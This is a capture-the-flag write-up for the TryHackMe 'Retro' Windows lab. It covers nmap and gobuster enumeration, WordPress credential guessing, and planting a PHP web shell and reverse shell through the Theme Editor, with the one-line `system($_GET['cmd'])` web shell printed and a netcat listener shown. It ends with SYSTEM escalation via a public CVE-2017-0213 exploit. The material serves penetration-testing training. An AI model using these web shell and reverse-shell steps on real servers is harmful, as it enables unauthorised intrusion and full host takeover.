 # Retro Writeup

They say there are two paths when completing this room. The first path goes as follows:
* Initial Access
* CVE-2019-1388 for SYSTEM
IF the last step doesn't work for you as it didn't for me you may follow a different path for gaining SYSTEM level access.

https://tryhackme.com/room/retro

## Task 1 Pwn

I started out with a simple nmap scan to check out ports, services, and versions.
```
nmap -sC -sV -oA nmap/common 10.10.119.28
```
```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-07-26T18:12:10+00:00
```
So I knew we were dealing with a windows machine running an IIS webserver and remote desktop protocol enabled. Then I went to enumerate the web server. First I hit it with fuzzing using gobuster.
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.204.15
```
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/01 15:15:21 Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 149] [--> http://10.10.204.15/retro/]
```
This gives us the answer to our first question.

From here I poked around the blog page a bit to gather more information. Doing the prequel box, Blaster, before this one helps tremendously as they are very similiar in the initial exploitation phase. We come across a potential username or password in an early blog post.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/blogpost.PNG?raw=true)

I decided to fuzz for more directories within /retro. I quickly see that this is a wordpress site with all the wp directories.
```
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.204.15/retro
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.15/retro
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/01 15:22:41 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 160] [--> http://10.10.204.15/retro/wp-content/]
/wp-includes          (Status: 301) [Size: 161] [--> http://10.10.204.15/retro/wp-includes/
```

So I navigated to `http://10.10.204.15/retro/wp-login.php` to try out these possible credentials. I created a not-so-quick python script to brute force passwords with the username parzival.

I'm not gonna lie this took me WAAY to long to figure out, but parzival is actually the password and wade is the username. After that we are into the wp-admin page.

From prior experience with exploiting wordpress sites I knew I could possibly upload a php reverse shell so I went right to 'Theme Editor' and copied and pasted Pentestmonkey's reverse shell into 'archive.php'. Then I navigated to the location of archives.php in the browser to run the code.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/phppentestmonkey.PNG?raw=true)

Obviously this DOES NOT WORK because the webserver is running on windows not linux.
```
└─# nc -lvnp 4444                                                                      1 ⚙
listening on [any] 4444 ...
connect to [10.6.14.57] from (UNKNOWN) [10.10.204.15] 49891
'uname' is not recognized as an internal or external command,
operable program or batch file.
```




So I swap this shell out with this simple php web shell to see if we can even get RCE. `<?php system($_GET["cmd"]);?>`
Then I navigate back to the location of the archive.php and pass in a parameter for 'cmd'.
![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/webshell.PNG?raw=true)

Great! Now that I know we have RCE and I can try a full reverse shell. I got mine from [here](https://github.com/Dhayalanb/windows-php-reverse-shell). I just had to change the ip and port. Then make the tmpdir = "C:\\inetpub\\wwwroot\\retro\\wp-content\\themes\\90s-retro". 
* Copy and paste the shell into archive.php
* Scroll down and click 'Upload File'
* Then set up a netcat listener in a terminal
* Navigate to archive.php in the browser just like before.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/reverseshell.PNG?raw=true)

After this I remembered that RDP was enabled and just for the hell of it I tried the same credentials from earlier. SURPRISE they work for RDP. This is better than our reverse shell because we have a real account instead of a service account. We can find user.txt at C:\Users\Wade\Desktop\user.txt

THIS WOULD BE THE POINT IN WHICH YOU SHOULD EXPLORE WHAT THE USER WAS TRYING TO FIX WHICH WAS CVE-2019-1388. IF IT DOES NOT WORK FOR YOU DUE TO A POP UP THEN CONTINUE ON.


![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/popup.PNG?raw=true)


After enumerating with windows-exploit-suggester.py I tried a few different CVEs for priviledge escalation but no success. The exploit I finally had success with was [CVE-2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213). The CVE is extremely simple to use. You just get the exe file onto the victim  and run it. It will then open up a shell running as SYSTEM.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/root.PNG?raw=true)

Then we can read root.txt at C:\Users\Administrator\Desktop\root.txt.txt

